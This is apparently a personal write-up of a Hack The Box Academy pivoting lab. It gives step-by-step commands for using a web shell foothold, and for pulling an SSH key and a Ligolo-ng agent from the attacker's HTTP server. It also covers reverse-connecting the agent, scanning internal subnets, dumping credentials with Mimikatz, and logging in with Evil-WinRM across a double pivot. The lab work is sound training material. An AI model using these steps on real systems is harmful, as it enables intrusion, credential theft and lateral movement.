

# HTB Academy: [Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/module/details/158) – Skills Assessment

## A hands‑on how‑to and post‑action report for multi‑hop tunneling and manual routing

---

### Introduction

Pivoting labs often feel prescriptive, walking through a fixed sequence of tunneling tools like SSH forwarding, sshuttle, Meterpreter autoroute, or Chisel to demonstrate lateral movement across segmented networks.

Those techniques are valuable, but in real operations, you rarely follow a clean playbook. Tools fail. Routes break. File transfers get flagged. And sometimes, the fastest path is the one you **build manually**.

During this pivoting assessment, I deliberately **ignored the lesson flow**. Instead of using the expected tools, I built my entire tunneling and routing chain from the command line using **Ligolo-ng**, combining it with manual routing and clean proxying, no autoroute, no GUI helpers, and no pivot frameworks.

It worked, and I learned far more than if I’d followed the script.

---

### Assessment Expected Tooling Route vs. My Route

The assessment was designed for students to test several pivoting techniques learned in the module:

- **SSH tunneling:** Local and dynamic forwarding  
- **sshuttle:** Quick layer-3 pivoting  
- **Meterpreter autoroute & SOCKS:** Metasploit classic  
- **ICMP tunneling (ptunnel-ng):** For networks blocking TCP  
- **Chisel / dnscat2:** Reverse SOCKS and DNS C2  
- **Windows netsh:** Manual Windows-side pivot

My path looked like this:



By leveraging [Ligolo-ng’s](https://github.com/nicocha30/ligolo-ng) proxy/agent model, I built a stable SOCKS-compatible route into the target subnet without relying on external tunneling layers. I handled all routing manually, which meant I always knew exactly where traffic was flowing.

---

### Initial Foothold and Tunnel Setup

The lab provided a compromised web host accessible via a retained web shell.

#### **Public Web Host (dual-homed) – inlanefreight.local**

This host served as the first jump box for pivoting.

A quick `ifconfig` showed dual-homed interfaces:

```bash
www-data@inlanefreight.local:/home/webadmin# ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.229.129  netmask 255.255.0.0  broadcast 10.129.255.255
...
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.15  netmask 255.255.0.0  broadcast 172.16.255.255
...
```

**Interesting files:**

```bash
www-data@inlanefreight.local:/home/webadmin# ls -la
-rw-r--r-- 1 root root  163 May 16  2022 for-admin-eyes-only
-rw-r--r-- 1 root root 2622 May 16  2022 id_rsa
```

The note revealed usable credentials:

```bash
www-data@inlanefreight.local:/home/webadmin# cat for-admin-eyes-only

# note to self,
in order to reach server01 or other servers in the subnet from here you have to use
the user account: mlefay
with a password of: Plain Human work!
```

Retrieve and transfer the SSH key:

```bash
# Encode the file in base64 for transfer
www-data@inlanefreight.local:/home/webadmin# cat id_rsa | base64 -w 0; echo
'-- base64 output --'

# Decode on your attack box
echo -n '-- base64 output --' | base64 -d > id_rsa
chmod 600 id_rsa
```

---

### Building a Compatible Ligolo-ng Binary

Older HTB boxes often use outdated glibc libraries, which can break modern binaries. The compromised host was on glibc 2.31, while my attack box was running 2.41 — so I created a **static musl build** to avoid dependency issues.

Compiled static binaries are available in  [`/binaries/Ligolo-ng-StaticBuild`](https://github.com/mermehr/redmind-sab/tree/main/binaries/Ligolo-ng-StaticBuild). 

If needed, you can build them yourself:

```bash
git clone https://github.com/nicocha30/ligolo-ng
cd ligolo-ng/cmd/agent

# Install dependencies
sudo apt update && sudo apt install -y musl-tools build-essential golang

# Build static musl binary (no libc required on target)
CC=musl-gcc CGO_ENABLED=1 \
  go build -trimpath \
  -ldflags='-s -w -linkmode external -extldflags "-static"' \
  -o bin/app-musl-static
```

Upload using a quick HTTP server:

```bash
cd bin
python3 -m http.server 80

# On the jump host
wget http://10.10.15.111/agent
chmod +x agent
```

---

### Running Ligolo-ng and Setting the First Tunnel

```bash
# On attack box
./ligolo-proxy -selfcert

# On pivot host
./ligolo-agent -connect 10.10.15.111:11601 -ignore-cert
```

Then connect inside Ligolo’s interactive console:

```bash
ligolo-ng » session
ligolo-ng » interface_create --name lig2
[Agent: ...] » tunnel_start --tun lig2
[Agent: ...] » route add 172.16.5.0/24

# Add route locally
sudo ip route add 172.16.5.0/24 dev lig2
```

Now you’ve got stable access to the internal subnet.

---

### Internal Enumeration

Quick ping sweep:

```bash
for i in $(seq 1 254); do ( ping -c1 -W1 172.16.5.$i >/dev/null && echo "up: 172.16.5.$i" ) & done; wait
up: 172.16.5.15
up: 172.16.5.35
```

Scan the live host:

```bash
sudo nmap -sT -sV 172.16.5.35
```

Output (trimmed):

```
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  http
```

---

### Internal Network 1 – 172.16.5.35 (PIVOT-SRV01)

Use the credentials from the note and the retrieved key:

```bash
ssh -i id_rsa mlefay@172.16.5.35
```

Grab the flag:

```cmd
type C:\flag.txt
'--- SNIP ---'
```

A quick host check shows another dual-homed system:

```cmd
ipconfig /all
# reveals 172.16.5.35 and 172.16.6.35 interfaces
```

We’re on a system with access to a new internal network (`172.16.6.0/24`).

Dump credentials with Mimikatz:

```cmd
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

Recovered credentials:

```
vfrank : Imply wet Unmasked!
```

---

### Double Pivot with Ligolo-ng

To reach the next subnet, we need to chain pivots through the first host.

Back on your attack host, set a listener to relay:

```bash
ligolo » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

On **PIVOT-SRV01**, upload the Windows agent and connect to the first pivot host’s internal IP:

```powershell
agent.exe -connect 172.16.5.15:11601 -ignore-cert
```

Now set up the new interface:

```bash
ligolo-ng » session
ligolo-ng » interface_create --name lig6
[Agent: ...] » tunnel_start --tun lig6
[Agent: ...] » route add 172.16.6.0/24

sudo ip route add 172.16.6.0/24 dev lig6
```

You now have visibility into the second internal network.

---

### Enumerating Internal Network 2

Quick targeted scan:

```bash
sudo nmap -n -Pn -T4 -sS --max-retries 1 --min-rate 1500 \
  -p 445,5985,3389,135,139,88,389 --open 172.16.6.0/24
```

Result:

```
Host: 172.16.6.25
Ports: 135, 139, 445, 3389, 5985 open
```

---

### Internal Network 2 – 172.16.6.25 (ACADEMY-PIVOT-D)

Connect using Evil-WinRM or RDP:

```bash
evil-winrm -i 172.16.6.25 -u vfrank -p 'Imply wet Unmasked!'
```

Grab the flag:

```powershell
type C:\flag.txt
'--- SNIP ---'
```

Network configuration shows access to another subnet (`172.16.10.0/24`), confirming this host connects toward the domain controller.

User enumeration confirms domain admin rights:

```powershell
net localgroup administrators
```

Output includes:
```
Administrator
apendragon
INLANEFREIGHT\Domain Admins
```

At this point, enumeration of the domain controller shares (via `smbmap`) or direct RDP with the same credentials yields the final objective.

---

### Key Takeaways

- **Manual routing beats autoroute when things break.** It’s slower at first, but clearer to debug.  
- **Ligolo-ng replaces older tools** like sshuttle, chisel, and autoroute with one clean, flexible method.  
- **Thinking like an operator** rather than a student forces deeper understanding of network flow and failure points.

---

### Closing Thoughts

This pivoting assessment could have been chaotic given the tooling issues I encountered during the module lessons. Instead, I chose to go **off-script** and build everything manually and use Ligolo-ng before starting the assessment.

It proved not only more stable but also far more instructive.

If you’re practicing offensive security, try at least one lab where you:

- Ignore the step-by-step instructions
- Build every tunnel and route by hand
- Debug your own mistakes

You’ll walk away understanding more than just tool syntax,  you’ll know how to think in routes.

---

### Related Resources
- [Ligolo-ng Static Binaries and Build Notes](https://github.com/mermehr/redmind-docs/tree/main/binaries/Ligolo-ng-StaticBuild)
- [Main RedMind Documentation Repository](https://github.com/mermehr/redmind-docs)

---
